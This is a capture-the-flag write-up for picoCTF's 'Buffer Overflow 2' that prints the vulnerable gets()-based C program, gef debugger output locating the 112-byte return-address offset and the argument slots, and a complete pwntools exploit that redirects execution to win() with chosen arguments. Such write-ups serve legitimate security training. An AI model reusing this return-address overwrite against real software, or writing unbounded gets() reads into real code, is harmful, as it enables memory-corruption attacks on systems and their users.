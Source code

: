 # picoCTF - Buffer Overflow 2

## Description
Control the return address and arguments This time you'll need to control the arguments to the function you return to!

As always, let's take a look at the code first:
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
Here we must do something simmilar to the past challenge, but in this case, there are 2 arguments that we need to pass to the function 'win'. `arg1=0xCAFEF00D` and `arg2=0xF00DF00D`
So, let's first see the size of our input to overflow the stack buffer and overwrite the return address. Then we'll make the program return to 'win' with the specified arguments.

Let's set the breakpoint after the input reading, and see how the stack is at that point.
```
gef➤  b *vuln+34
Breakpoint 1 at 0x804935a
gef➤  r
Starting program: /home/mfumega/Documents/challenges/vuln
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter your string:
AAAABBBB

Breakpoint 1, 0x0804935a in vuln ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────── registers ───
$eax   : 0xffffce1c  →  "AAAABBBB"
$ebx   : 0x0804c000  →  0x0804bf10  →  0x00000001
$ecx   : 0xf7fa19c0  →  0x00000000
$edx   : 0x1
$esp   : 0xffffce00  →  0xffffce1c  →  "AAAABBBB"
$ebp   : 0xffffce88  →  0xffffcea8  →  0xf7ffd020  →  0xf7ffda40  →  0x00000000
$esi   : 0xffffcf74  →  0xffffd14d  →  "/home/mfumega/Documents/challenges/vuln"
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x0804935a  →  <vuln+0022> add esp, 0x10
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
──────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffce00│+0x0000: 0xffffce1c  →  "AAAABBBB"    ← $esp
0xffffce04│+0x0004: 0x0000001a
0xffffce08│+0x0008: 0xf7fa0da0  →  0xfbad2887
0xffffce0c│+0x000c: 0x08049348  →  <vuln+0010> add ebx, 0x2cb8
0xffffce10│+0x0010: 0xf7fa0da0  →  0xfbad2887
0xffffce14│+0x0014: 0xf7fa0de7  →  0xfa19b40a
0xffffce18│+0x0018: 0x00000001
0xffffce1c│+0x001c: "AAAABBBB"
─────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ───
    0x8049351 <vuln+0019>      lea    eax, [ebp-0x6c]
    0x8049354 <vuln+001c>      push   eax
    0x8049355 <vuln+001d>      call   0x80490f0 <gets@plt>
 →  0x804935a <vuln+0022>      add    esp, 0x10
```
And here in the stack, we can see the input 'AAAABBBB' and we can see the return address pointing to main '0x080493dd'.

```
gef➤  x/50wx $esp
0xffffce00:     0xffffce1c      0x0000001a      0xf7fa0da0      0x08049348
0xffffce10:     0xf7fa0da0      0xf7fa0de7      0x00000001      0x41414141
0xffffce20:     0x42424242      0x00000000      0xf7df549d      0xf7f9ea60
0xffffce30:     0xf7fa0da0      0xf7fa0000      0xffffce78      0xf7de942b
0xffffce40:     0xf7fa0da0      0x0000000a      0x0000001a      0xf7e55801
0xffffce50:     0xf7d83e54      0x000007d4      0xf7fa0e3c      0x0000001a
0xffffce60:     0xffffcea8      0xf7fd9004      0x00000000      0x0804c000
0xffffce70:     0xffffcf74      0xf7ffcb80      0xffffcea8      0x080493d5
0xffffce80:     0x0804a063      0x0804c000      0xffffcea8      0x080493dd
0xffffce90:     0xffffced0      0xf7fbe66c      0xf7fbeb10      0x000003e8
0xffffcea0:     0xffffcec0      0xf7fa0000      0xf7ffd020      0xf7d97519
0xffffceb0:     0xffffd14d      0x00000070      0xf7ffd000      0xf7d97519
0xffffcec0:     0x00000001      0xffffcf74
gef➤
```

By calculating the offset as before, we know that our input should be 112 bytes until the return address. So if we input 112 'A' and 4 letters 'B', the program will attempt to jump to 0x42424242.

Let's replace that 4 'B' with the actual address of 'win'.
```
gef➤  print win
$1 = {<text variable, no debug info>} 0x8049296 <win>
gef➤
```
And now, we must call the win function, and pass the arguments we mentioned before. To do that, we'll just send the two arguments right aftet we jump to the function.

First let's run the program in debug mode with `p = gdb.debug(binary_path)`, so we can know where the actual values that 'arg1' and 'arg2' are, and their values.

These 2 are the lines that compare the arguments against the values we saw before:
```
 →  0x804930c <win+0076>       cmp    DWORD PTR [ebp+0x8], 0xcafef00d
    0x8049315 <win+007f>       cmp    DWORD PTR [ebp+0xc], 0xf00df00d
```

And we can check the values at [ebp+0x8] and [ebp+0xc], and they are: 
```
(remote) gef➤  x/x $ebp+0x8
0xffed3404:     0xf7faf66c
(remote) gef➤  x/x $ebp+0xc
0xffed3408:     0xf7fafb10
(remote) gef➤
```

We saw the values `0xf7faf66c` for arg1, and `0xf7fafb10` for arg2. We can use the same stack dump from before, and we'll find this 2 values starting at 0xffffce94 and 0xffffce98. 
So, we know that 4 bytes after the return address, are stored arg1 and arg2. 

Now we can build out final exploit with the complete payload like this:

```
#!/usr/bin/env python3
from pwn import *

#context.arch = 'amd64'
binary_path = '/tmp/here/vuln'
p = process(binary_path)
#p = gdb.debug(binary_path)
offset = 112

payload = b'A' * offset
payload += p32(0x8049296)
payload += b'A' * 4
payload += p32(0xcafef00d)
payload += p32(0xf00df00d)

p.sendline(payload)
response = p.recvall()
print(response.decode('latin-1'))
```

That's it for this challenge! If we do this against the remote connection, we'll get the flag! 


